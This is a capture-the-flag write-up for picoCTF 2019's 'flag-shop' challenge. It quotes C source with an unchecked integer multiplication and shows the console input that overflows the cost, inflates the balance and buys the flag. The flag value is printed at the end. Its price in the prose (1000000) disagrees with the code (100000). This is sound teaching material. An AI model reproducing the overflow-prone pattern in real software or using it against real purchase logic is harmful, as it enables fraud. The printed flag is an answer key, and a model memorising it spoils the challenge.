 # flag-shop

## Points:
300

## Description:
> There's a flag shop selling stuff, can you buy a flag? Source. Connect with nc 2019shell1.picoctf.com 14937.

## Solution:
The given program is simple application, a flag shop where user can do following actions:
  1. Check account balance
  2. Buy flags
  3. Exit program
  
Looking at the source code, the most interesting part is:
````c
else if(auction_choice == 2){ 
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
    
                if(bid == 1){ 
    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }   
                        char buf[64];
                        fgets(buf, 63, f); 
                        printf("YOUR FLAG IS: %s\n", buf);
                        }   
    
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}  

            }   
}
````

So, to obtain flag we have to 'buy' special 1337 which costs 1000000 units. Our balance is held in *account_balance* variable. Let's see when its value is updated.

````c
if(auction_choice == 1){ 
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
    
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){ 
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }   
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }   
    
    
                }   

            }   
````

Ok, the only part where balance is updated, is substracting value of bought flags (normal flags). Substracted value is cost of one flag times their number (provided by user on standard input). Let's see what happens when we would like to buy a lot of flags, and I mean A LOT.

````console
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
3123123123444

The final cost is: -470996528

Your current balance after transaction: 470997628
````

Right, the account_balance variable is (probably) 32bit integer, so we've caused integer overflow. Then the negative cost was substracted, giving us a lot of money.

Now we are able to buy dreamed flag:
````console
Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_e062f0fd}
````
